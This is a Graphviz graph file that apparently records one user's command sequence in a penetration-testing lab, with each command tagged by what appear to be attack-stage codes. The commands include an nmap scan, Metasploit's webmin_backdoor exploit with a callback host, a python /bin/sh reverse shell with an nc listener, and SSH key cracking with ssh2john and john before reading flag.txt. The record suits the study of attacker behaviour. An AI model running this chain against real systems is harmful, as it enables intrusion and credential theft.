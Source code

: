 // creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -v 172.18.1.5 M0 "]
	2 [label="msfconsole M2 "]
	3 [label="search webmin M3 "]
	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	5 [label="show options M5 "]
	6 [label="set rhosts 172.18.1.5 A6 "]
	7 [label="run U"]
	8 [label="set lhost 10.1.135.83 A6 "]
	9 [label="run U"]
	10 [label="cd /root/.ssh A16 "]
	11 [label="cd .ssh A16 "]
	12 [label="ls A10 "]
	13 [label="ls -la A10 "]
	14 [label="ssh-keygen -t rsa A16 "]
	15 [label="show options U"]
	16 [label="run U"]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
	18 [label="nc -nvlp 225 U"]
	19 [label="cd . U"]
	20 [label="cd .. U"]
	21 [label="ls -la A10 "]
	22 [label="ls A10 "]
	23 [label="ls -la A10 "]
	24 [label="ls -a A10 "]
	25 [label="ls -l A10 "]
	26 [label="ssh eve@10.1.17.4 --help M16 "]
	27 [label="ssh -i eve.key eve@10.1.17.4 U"]
	28 [label="chown key.eve 0644 U"]
	29 [label="chmod key.eve 0644 A15 "]
	30 [label="chmod 0644 key.eve A15 "]
	31 [label="ls A10 "]
	32 [label="chmod 0644 eve.key A15 "]
	33 [label="ssh -i eve.key eve@10.1.17.4 U"]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 U"]
	35 [label="chmod 0700 eve.key A15 "]
	36 [label="ssh -i eve.key eve@10.1.17.4 U"]
	37 [label="ssh2john eve.key > eve.hash A14 "]
	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A17 "]
	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
	40 [label="ls A10 "]
	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
	45 [label="ssh -i eve.key eve@10.1.17.4 U"]
	46 [label="ls A10 "]
	47 [label="ls -la A10 "]
	48 [label="cd top-secret/ U"]
	49 [label="ls -la A10 "]
	50 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
